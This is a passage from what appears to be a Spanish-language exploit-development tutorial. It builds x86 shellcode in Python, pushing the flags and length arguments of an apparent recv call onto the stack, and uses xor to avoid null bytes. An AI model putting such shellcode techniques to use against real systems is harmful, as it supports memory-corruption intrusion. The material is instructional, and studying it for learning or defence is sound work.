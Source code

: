 para que se posesione arriba

![paste](./images/104.jpeg)
## ***Parámetro [Flag]*** & ***[Len]***

Daremos dos pájaros de un tiro 

```python
# [flag]
recv += b"\x31\xdb"             #   xor ebx, ebx
recv += b"\x53"                 #   push ebx

# [len]
recv += b"\x66\x81\xc3\x01\x04" #   add bx, 0x401
recv += b"\x53"                 #   puesh ebx
```

El parámetro de la Flag debemos de igualarlo a 0 pero si le hacemos un **add ebx 0x0** no dara como resultado un null byte y eso no queremos, bueno al menos que quieras hacerte la maldad tu mismo, pero con compuertas lógicas como xor podemos hacer que el resultado sea 0 

![paste](./images/105.jpeg)

Después lo agregamos al inicio de la pila 
